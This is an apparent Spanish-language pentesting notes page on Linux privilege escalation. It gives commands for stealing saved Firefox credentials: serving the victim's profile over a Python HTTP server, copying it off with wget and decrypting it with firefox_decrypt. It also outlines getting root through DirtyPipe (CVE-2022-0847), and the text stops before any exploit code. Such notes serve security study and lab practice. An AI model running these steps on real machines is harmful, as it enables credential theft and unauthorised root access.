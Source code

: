 ## Técnica de escalda de privilegios vertical.<br>
Es acceder a un usuario que tenga mas control dentro del sistema para realizar modificaciones.<br><br>

![](/assets/images/pe.jpeg) 

## ESCALADA DE PRIVILEGIOS EN LINUX.<br>
## ls -la
Con el commando ls -la puedes ver las carpetas ocultas, el propietario y que privilegios tienen asignadas los directorio.<br> Debido a que en firefox se almacenan sesiones se puede llegar a listar las credenciales y obtenerlas en texto claro con una herramienta que permita hacer un decrypt en caso de que este el directorio ./mozilla/firefox.<br>
Ingresas al directorio .mozilla/firefox y ve si estan los archivos key.db y login.json dentro de cualquier archivo pero con extensión .default.<br>
Haz un cat a login.json y si está el archivo user.encryp y password.encryp significa que hay una sesión activa y puedes llegar a computar las credenciales.<br>
Clona la siguiente herramienta que te permitirá ver las credenciales.<br>
git clone https://github.com/unode/firefox_decrypt <br>
```
ls -la -> ./mozilla/firefox
cd ./mozilla/firefox
ls -> key.db	login.json
cat login.json -> user.encryp	password.encryp
git clone https://github.com/unode/firefox_decrypt
```

Desde la maquina víctima ver si tiene instalado python3 para poder compartirte un servicio http por el puerto 8000 para que no te pida credenciales al momento de compartirlo.<br>
Copia de forma recursiva todos los recursos que haya dentro del directorio ./mozilla/firefox a tu maquina con wget.<br>
```
which python3 -> /usr/bin/pyhton3
python3 -m http.server 8000
wget -r <ip-address>:8000
```
Correr el script en python e indicale la ruta de donde hará el decryp.
```
python3 firefox_decryp.py /ejemplo/directorio/copiado
```
<br><br>
## DirtyPipe.
CVE-2022-0847 -> Es una vulnerabilidad que que consiste en cambiar la contraseña del usuario root sobrescribiendo el /etc/passwd.<br> Para ver si un sistema operativo es vulnerable al DirtyPipe lo que se tiene que hacer es ver si tiene instalado el binario gcc. Posteriormente desplazarse a una carpeta que tenga permisos de escritura para poder descargar el exploit(Por lo regular el directorio /tmp siempre cuenta con permisos de escritura). En caso de que la maquina no tenga acceso a internet te puedes copiar el exploit a la clipboard y despues pegarlo en un archivo.c. Por consiguiente buscar en github el exploit referente a la vulnerabilidad, compilar el exploit y al ejecutarlo te lanzará una consola como el usuario root.<br>
```
which gcc -> /usr/bin/gcc

cd /tmp

```